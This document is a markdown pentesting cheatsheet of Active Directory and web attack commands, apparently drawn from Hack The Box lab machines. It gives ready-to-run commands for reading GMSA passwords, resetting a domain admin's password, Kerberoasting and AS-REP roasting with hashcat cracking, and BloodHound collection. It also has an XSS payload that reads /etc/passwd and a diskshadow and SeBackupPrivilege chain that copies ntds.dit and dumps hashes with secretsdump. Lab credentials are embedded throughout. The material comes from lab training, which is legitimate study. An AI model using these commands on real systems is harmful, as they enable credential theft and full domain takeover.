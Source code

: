 ```yaml
---
title: "cheatsheets"
layout: categories
permalink: /cheatsheet/
---
```


## GMSA from powershell

```
$gmsa = Get-ADServiceAccount -Identity 'BIR-ADFS-GMSA' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'

#make the password into variable
$c = ConvertFrom-ADManagedPasswordBlob $mp
```

## Change password from powershell
```
$username ="BIR-ADFS-GMSA";
$password = $c.SecureCurrentPassword; 
$cred = New-Object System.Management.Automation.PSCredential -ArgumentList $username, $password;
Invoke-Command -ScriptBlock { whoami } -ComputerName RESEARCH -Credential $cred
```

## Change domain admins password

```
Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock {net user Tristan.Davies bunnys666 /domain}
```

## Service Principal Names

```
GetUserSPNs.py search.htb/hope.sharp:'IsolationIsKey?' -request -dc-ip 10.10.11.129 -outputfile hash
```

## AS-REP Roasting

```
GetNPUsers.py BLACKFIELD.local/ -usersfile usernames.txt -format hashcat -dc-ip 10.10.10.192 -outputfile AS-REP
```
### Hashcat

```
hashcat -m 18200 -a 0 AS-REP ~/Desktop/htb-tool/rockyou.txt
```


## Bloodhound

### Bloodhound.py

```
./bloodhound.py -d search.htb -u hope.sharp -p 'IsolationIsKey?' -ns 10.10.11.129 -c all
```

## XSS passwd file

```
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```

## LDAP Naming Context

```
ldapsearch -x -h $ip -D '' -w '' -b "DC=cascade,DC=local" > ldap.log
```

## Deleted Object AD

```
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
```

### Deleted information object AD

```
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

## SMB Get file

```
smbget -R smb://audit2020:'Password123'@10.10.10.192/forensic/memory_analysis/lsass.zip
```

## Disk Shadow

```
set context persistent nowriters  
set metadata c:\windows\system32\spool\drivers\color\example.cab  
set verbose on  
begin backup  
add volume c: alias mydrive  
 
create  
  
expose %mydrive% w:  
end backup  
```

## SeBackup Privilege Enabled

```
#evil-winrm
upload SeBackupPrivilegeUtils.dll
upload SeBackupPrivilegeCmdLets.dll

# import module cmdlets command
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll

Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\temp\ntds.dit -Overwrite
reg save HKLM\SYSTEM c:\temp\

secretsdump.py -ntds ntds.dit -system system -just-dc LOCAL 
```

## DNS Enumeration

```
dnsenum --dnsserver 10.10.10.224 -f /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt realcorp.htb -u z -v
```

## Keytab Kerberos

```
kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
```